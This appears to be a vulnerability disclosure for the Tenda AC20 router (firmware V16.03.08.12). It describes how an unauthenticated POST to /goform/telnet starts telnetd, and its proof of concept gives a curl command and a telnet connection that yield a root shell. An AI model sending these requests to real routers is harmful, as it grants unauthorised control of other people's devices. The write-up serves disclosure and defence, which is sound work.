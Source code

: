 # Tenda AC20 telnet TendaTelnet OS Command Injection

## Summary

A remote command execution vulnerability exists in the Tenda AC20 router (firmware V16.03.08.12), allowing attackers to activate the telnet service via a specific HTTP endpoint. The vulnerability resides in the `TendaTelnet` function, which directly executes system commands to start the telnet service without proper input sanitization, enabling attackers to gain interactive shell access to the router and execute arbitrary commands.

## Details



*   **Vendor**: Tenda

*   **Product**: Tenda AC20

*   **Firmware Version**: V16.03.08.12

*   **Firmware Download**: https://www.tenda.com.cn/material/show/3264

*   **Component**: `/goform/telnet` (inferred from `websFormDefine("telnet", TendaTelnet);` )

*   **Vulnerability Type**: Command Execution via Service Activation (CWE-78)

*   **CVE ID**: Pending

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Description

The vulnerability stems from the `TendaTelnet` function, which is bound to the `/goform/telnet` endpoint via `websFormDefine("telnet", TendaTelnet);`. This function is designed to control the telnet service of the router but lacks essential input sanitization for system commands. The function's execution flow directly triggers system commands to enable and start the telnet service, allowing attackers to exploit it via a crafted HTTP request.

Key operations in the `TendaTelnet` function are as follows:



1.  **Parameter Retrieval**: The function calls `GetValue("lan.ip", v17)` to obtain the router's LAN IP address, stored in the `v17` buffer.

2.  **Console Activation**: It enables the system console via `console_control(1)` and sets the `console_switch` configuration to `enable` using `SetValue`, followed by committing the configuration with `CommitCfm()`.

3.  **Telnet Service Management**:

*   It first terminates any existing telnet service instances with `system("killall -9 telnetd")`.

*   It then starts a new telnet service bound to the retrieved LAN IP via `doSystemCmd("telnetd -b %s &", (const char *)v17)`, where `%s` is replaced with the LAN IP from `v17`.

1.  **Response**: The function returns a success message "load telnetd success." via `websWrite` with a 200 HTTP status code.

Critical issues in this flow:

*   Activation of telnetd allows attackers to connect to the router's telnet service and execute arbitrary system commands with root privileges (typical for router environments).
*   ![PoC 2 Result: Root Directory Listing](./imgs/2.png)

## PoC: Exploit Steps

### 1. Activate Telnet Service

Send a POST request to the `/goform/telnet` endpoint to trigger the `TendaTelnet` function:


```
curl -i -X POST http://192.168.xxx.xxx/goform/telnet --http0.9
```
then use ctrl+c to quit，the you can start the telnet service of this router:
![PoC 2 Result: Root Directory Listing](./imgs/0.png)


### 2. Connect via Telnet

```
telnet 192.168.xxx.xxx 80
```

Successful connection will provide an interactive shell:

![PoC 2 Result: Root Directory Listing](./imgs/1.png)
